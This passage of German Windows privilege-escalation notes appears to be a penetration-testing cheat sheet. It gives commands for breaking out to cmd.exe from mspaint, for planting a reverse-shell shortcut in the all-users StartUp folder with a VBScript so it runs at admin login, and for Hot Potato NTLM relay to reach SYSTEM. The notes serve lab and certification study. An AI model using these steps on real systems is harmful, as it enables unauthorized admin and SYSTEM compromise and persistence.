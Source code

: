 In der Applikation (z.B.) **mspaint** eine neue Datei öffnen und in Explorer-Bar eingeben:

```bash
file:c:/windows/system32/cmd.exe
```

## Startup Apps

Sollte ein **Benutzer Schreibrechte im Ordner** haben, welcher die Startup Apps für alle User enthält, so kann bei einem Admin Login eine Reverse Shell mit Adminrechten gestartet werden.

```bash
#Prüfen, ob Benutzer Schreibrechte für dieses Verzeichnis hat
accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
```

<img src="https://user-images.githubusercontent.com/33549572/88439591-e9299500-ce0b-11ea-9da5-9edf1bee0a12.png" alt="image-20200724182408185" style="zoom:80%;" />

Hierfür kann folgendes VBScript genutzt werden (auf Kali als file.vbs speichern):

```bash
Set oWS = WScript.CreateObject("WScript.Shell")
sLinkFile = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\reverse.lnk"
Set oLink = oWS.CreateShortcut(sLinkFile)
oLink.TargetPath = "C:\Temp\test.txt"
oLink.Save
```

Ausführen mit `cscript <filename>` - sobald sich Admin anmeldet, startet reverse shell als Admin

## Installed Apps

Grundsätzlich basieren die meisten Exploits auf bereits gelisteten Problemem (Unquoted Service Paths, Weak File Permissions, etc). Allerdings existieren beispielsweise auch Buffer Overflows. Um Tasks zu identifizieren, welche anfällig sein könnten, gibt es folgende Methoden:

```bash
#Ganz schlecht, da alle Tasks gelistet werden - auch Microsoft Tasks
tasklist
#Besser, da stark gefiltert:
seatbelt NonstandardProcesses
#Alternativ winPEAS..
```

## Hot Potato

Funktioniert auf Windows 7, 8 und frühen Windows 10 Versionen. Windows wird dazu gebracht sich als SYSTEM User bei einem Fake HTTP Server mittels NTLM zu authentifizieren. Die NTLM Credentials werden daraufhin mittels SMB zur Command Execution verwendet.

```bash
potato.exe -ip <WIN-IP> -cmd "C:\PathToShell\reverse.exe" -enable_httpserver true -enable_defender true -enable_spoof true -enable_exhaust true
```

## Token Impersonation
